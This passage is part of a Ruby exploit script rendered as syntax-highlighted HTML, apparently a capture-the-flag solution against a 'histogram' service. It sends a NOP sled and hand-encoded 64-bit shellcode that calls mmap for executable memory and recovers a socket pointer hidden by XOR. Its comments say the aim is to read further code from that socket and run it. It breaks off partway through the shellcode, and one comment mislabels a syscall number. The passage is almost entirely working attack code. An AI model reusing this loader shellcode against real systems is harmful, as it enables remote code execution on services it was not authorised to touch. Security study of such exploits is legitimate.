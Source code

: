 <span class="lnr"> 89 </span>  <span class="Statement">end</span>
<span class="lnr"> 90 </span><span class="rubyDefine">end</span>
<span class="lnr"> 91 </span>
<span class="lnr"> 92 </span><span class="Comment"># Choose 'histogram'</span>
<span class="lnr"> 93 </span>puts(<span class="Special">&quot;</span><span class="Constant">1</span><span class="Special">&quot;</span>)
<span class="lnr"> 94 </span>
<span class="lnr"> 95 </span><span class="Comment"># The first part gets eaten, I'm not sure why</span>
<span class="lnr"> 96 </span>my_print(encode_shellcode(<span class="Special">&quot;</span><span class="Special">\x90</span><span class="Special">&quot;</span> * <span class="Constant">20</span>))
<span class="lnr"> 97 </span>
<span class="lnr"> 98 </span><span class="Comment"># Encode the custom-written loader code that basically reads from the</span>
<span class="lnr"> 99 </span><span class="Comment"># socket into some allocated memory, then runs it.</span>
<span class="lnr">100 </span><span class="Comment">#</span>
<span class="lnr">101 </span><span class="Comment"># Trivia: This is my first 64-bit shellcode! :)</span>
<span class="lnr">102 </span><span class="Comment">#</span>
<span class="lnr">103 </span><span class="Comment"># This had to be carefully constructed because it would influence the</span>
<span class="lnr">104 </span><span class="Comment"># eventual histogram, which would modify the stack and therefore break</span>
<span class="lnr">105 </span><span class="Comment"># everything.</span>
<span class="lnr">106 </span>my_print(encode_shellcode(
<span class="lnr">107 </span>
<span class="lnr">108 </span>  <span class="Special">&quot;</span><span class="Special">\xb8\x09\x00\x00\x00</span><span class="Special">&quot;</span>     + <span class="Comment"># mov eax, 0x00000006 (mmap)</span>
<span class="lnr">109 </span>  <span class="Special">&quot;</span><span class="Special">\xbf\x00\x00\x00\x41</span><span class="Special">&quot;</span>     + <span class="Comment"># mov edi, 0x41000000 (addr)</span>
<span class="lnr">110 </span>  <span class="Special">&quot;</span><span class="Special">\xbe\x00\x10\x00\x00</span><span class="Special">&quot;</span>     + <span class="Comment"># mov esi, 0x1000 (size)</span>
<span class="lnr">111 </span>  <span class="Special">&quot;</span><span class="Special">\xba\x07\x00\x00\x00</span><span class="Special">&quot;</span>     + <span class="Comment"># mov rdx, 7 (prot)</span>
<span class="lnr">112 </span>  <span class="Special">&quot;</span><span class="Special">\x41\xba\x32\x00\x00\x00</span><span class="Special">&quot;</span> + <span class="Comment"># mov r10, 0x32 (flags)</span>
<span class="lnr">113 </span>  <span class="Special">&quot;</span><span class="Special">\x41\xb8\x00\x00\x00\x00</span><span class="Special">&quot;</span> + <span class="Comment"># mov r8, 0</span>
<span class="lnr">114 </span>  <span class="Special">&quot;</span><span class="Special">\x41\xb9\x00\x00\x00\x00</span><span class="Special">&quot;</span> + <span class="Comment"># mov r9, 0</span>
<span class="lnr">115 </span>  <span class="Special">&quot;</span><span class="Special">\x0f\x05</span><span class="Special">&quot;</span>                 + <span class="Comment"># syscall - mmap</span>
<span class="lnr">116 </span>
<span class="lnr">117 </span>  <span class="Special">&quot;</span><span class="Special">\xbf\x98\xf8\xd0\xb0</span><span class="Special">&quot;</span>     + <span class="Comment"># mov edi, ptr to socket ^ 0xb0b0b0b0</span>
<span class="lnr">118 </span>  <span class="Special">&quot;</span><span class="Special">\x81\xf7\xb0\xb0\xb0\xb0</span><span class="Special">&quot;</span> + <span class="Comment"># xor edi, 0xb0b0b0b0</span>
<span class="lnr">119 </span>  <span class="Special">&quot;</span><span class="Special">\x48\x8b\x3f</span><span class="Special">&quot;</span>             + <span class="Comment"># mov edi, [edi]</span>
<span class="lnr">120 </span>
<span class="lnr">121 </span>  <span class="Special">&quot;</span><span class="Special">\xb8\x00\x00\x00\x00</span><span class="Special">&quot;</span>     + <span class="Comment"># mov rax, 0</span>